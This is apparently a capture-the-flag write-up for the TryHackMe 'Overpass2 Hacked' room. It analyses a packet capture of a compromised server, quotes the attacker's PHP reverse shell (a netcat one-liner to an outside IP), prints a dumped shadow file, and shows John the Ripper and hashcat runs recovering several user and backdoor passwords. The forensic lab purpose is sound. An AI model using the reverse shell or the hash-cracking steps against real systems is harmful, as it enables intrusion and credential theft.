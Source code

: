 # Overpass2 Hacked

### Analyze pcap using wireshark.
* Open in Wireshark
    * Found that they used /development as a page to uploado a reverse shell.
    * They used this PHP code to gain it.
    ```
    <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
    ```
    * Found a password in the pcap: whenevernoteartinstant. It's a password that has sudo access.
    * They used this backdoor to establish a persistent shell https://github.com/NinjaJc01/ssh-backdoor

    * ### Hacker got the contents of /etc/shadow.
    ``` 
    root:*:18295:0:99999:7:::
    daemon:*:18295:0:99999:7:::
    bin:*:18295:0:99999:7:::
    sys:*:18295:0:99999:7:::
    sync:*:18295:0:99999:7:::
    games:*:18295:0:99999:7:::
    man:*:18295:0:99999:7:::
    lp:*:18295:0:99999:7:::
    mail:*:18295:0:99999:7:::
    news:*:18295:0:99999:7:::
    uucp:*:18295:0:99999:7:::
    proxy:*:18295:0:99999:7:::
    www-data:*:18295:0:99999:7:::
    backup:*:18295:0:99999:7:::
    list:*:18295:0:99999:7:::
    irc:*:18295:0:99999:7:::
    gnats:*:18295:0:99999:7:::
    nobody:*:18295:0:99999:7:::
    systemd-network:*:18295:0:99999:7:::
    systemd-resolve:*:18295:0:99999:7:::
    syslog:*:18295:0:99999:7:::
    messagebus:*:18295:0:99999:7:::
    _apt:*:18295:0:99999:7:::
    lxd:*:18295:0:99999:7:::
    uuidd:*:18295:0:99999:7:::
    dnsmasq:*:18295:0:99999:7:::
    landscape:*:18295:0:99999:7:::
    pollinate:*:18295:0:99999:7:::
    sshd:*:18464:0:99999:7:::
    james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
    paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
    szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
    bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
    muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
    ```
# John was able to crack 4 passwords from the shadow file.
```
┌──(zeus-kali㉿kali-vm)-[~/ctf/tryhackme/overpass2hacked]
└─$ john shadowed --wordlist=/usr/share/wordlists/fasttrack.txt 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2021-08-21 18:02) 28.57g/s 1585p/s 7928c/s 7928C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### The backdoor the hacker used has a default hash
* bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
### The backdoor also has a hardcoded salt as 1c362db832f3f864c8c2fe05f2002a05

### Hacker ran this command, which looks like he provided a hash...
```
/backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

# We can use hashcat to crack the password.
### hashcat -m 1710 -a 0 -o cracked.txt hackerhash /usr/share/wordlists/rockyou.txt
#### hashcat gave us this
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```